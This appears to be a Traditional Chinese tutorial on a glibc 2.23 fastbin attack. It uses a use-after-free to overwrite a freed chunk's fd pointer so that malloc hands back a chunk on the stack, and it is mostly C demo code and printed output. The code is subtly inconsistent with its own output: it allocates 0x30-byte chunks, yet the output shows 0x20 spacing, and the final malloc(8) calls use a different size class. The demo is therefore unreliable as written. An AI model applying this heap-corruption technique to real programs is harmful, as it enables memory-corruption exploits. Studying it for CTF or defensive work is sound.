




|||
|-|-|
|版本|latest|
|效果|可以構造一個allocated chunk在任意writable address上|

## glibc 2.23

### malloc

先malloc出fastbin  
然後現在創了一個`stackVar`，用於存`fake size`和`target`

```c
unsigned long *ptr0, *ptr1, *ptr2;

ptr0 = malloc(0x30);
ptr1 = malloc(0x30);
ptr2 = malloc(0x30);

printf("Chunk 0: %p\n", ptr0);
printf("Chunk 1: %p\n", ptr1);
printf("Chunk 2: %p\n\n", ptr2);

unsigned long long stackVar[2];
stackVar[0] = 0x20; // fake size
stackVar[1] = 0x55; // target

char *data0 = "00000000";
char *data1 = "11111111";
char *data2 = "22222222";

memcpy(ptr0, data0, 0x8);
memcpy(ptr1, data1, 0x8);
memcpy(ptr2, data2, 0x8);

```

### free

```c
free(ptr0); //fastbin->Chunk0
free(ptr1); //fastbin->Chunk1->Chunk0
free(ptr2); //fastbin->Chunk2->Chunk1->Chunk0

printf("Chunk0 @ %p\t contains: %lx\n", ptr0, *ptr0);
printf("Chunk1 @ %p\t contains: %lx\n", ptr1, *ptr1);
printf("Chunk2 @ %p\t contains: %lx\n\n", ptr2, *ptr2);
```

output

```txt
Chunk0 @ 0x2e80010       contains: 0
Chunk1 @ 0x2e80030       contains: 2e80000
Chunk2 @ 0x2e80050       contains: 2e80020
```

fastbin會造著下圖方式串接(*我為了方便起見只用兩個chunk做示範)



### 竄改chunk fd

假設我們現在可以uaf一個chunk，freed chuck指標的位置會剛好存放fd  
可以直接把他修改到`target - 0x10`

```c
*ptr1 = (unsigned long)((char *)&stackVar - 8); //overwirte the FP: fastbin->Chunk2->Chunk1->stackVar
```



### malloc

最後malloc相同size的chunk  
結果應該會成功把chunk allocate到target上

```c
unsigned long *ptr3, *ptr4, *ptr5;

ptr3 = malloc(8); //fastbin->Chunk1->stackVar
ptr4 = malloc(8); //fastbin->stackVar
ptr5 = malloc(8); //fastbin->NULL

printf("Chunk 3: %p\n", ptr3);
printf("Chunk 4: %p\n", ptr4);
printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);
```



output

```txt
Chunk 3: 0x2e80050
Chunk 4: 0x2e80030
Chunk 5: 0x7fff8910f668  Contains: 0x55
```

### glibc 2.27 以上

先填滿tcache在進行剛剛操作